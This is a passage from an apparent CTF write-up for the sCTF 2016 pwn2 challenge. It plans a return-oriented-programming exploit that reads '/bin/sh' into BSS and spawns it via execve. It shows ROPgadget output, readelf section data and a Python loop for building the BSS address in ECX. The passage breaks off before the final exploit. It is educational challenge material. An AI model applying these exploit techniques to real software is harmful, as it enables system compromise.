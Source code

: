 ```bash
0x0804846f : sub al, 0xa0 ; add al, 8 ; call edx
0x08048416 : sub al, 0xa0 ; add al, 8 ; cmp eax, 6 ; ja 0x8048429 ; ret
0x0804833d : sub esp, 8 ; call 0x8048409
0x0804882f : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret

Unique gadgets found: 123
```

So we have some good gadgets like `inc eax ; ret` & company, also a `0x080484d0 : int 0x80`.
So our exploit consists in: 

1) Read "/bin/sh" with a system call `read` writing this string in BSS

2) execute execve("/bin/sh") system call

But this is not so easy: we have to set `EAX = 3` and `ECX = BSS address`: we have to look for a gadget that give us `EAX = 0`. With the gadgets that `ROPgadget` gives us it is impossible: so we have to look for gadgets manually. What about that? 

![EAX]( {{ site.baseurl }}/files/sctf2016/pwn2/EAX.png)

At `0x08048459` we have the same gadget but for `EDX` register. The address of BSS is 

```bash
$ readelf -t pwn2
There are 30 section headers, starting at offset 0x1184:
...
...
...
  [25] .bss
       NOBITS          0804a040 00102c 000008 00   0   0 32
       [00000003]: WRITE, ALLOC
...
...
```

so we have to put `0804a040` into `ECX` and this is tricky. 

What about overflow ECX with `0x0804849a : add ecx, ecx ; ret`? Yea that's good! Infact 

```bash
>>> n = 0x3c7
>>> for i in range(1,32):
...         n = n*2
...         print hex(n)
... 
0x78e
0xf1c
0x1e38
0x3c70
0x78e0
0xf1c0
0x1e380
0x3c700
0x78e00
0xf1c00
0x1e3800
0x3c7000
0x78e000
0xf1c000
0x1e38000
0x3c70000
0x78e0000
0xf1c0000
0x1e380000
0x3c700000
0x78e00000
```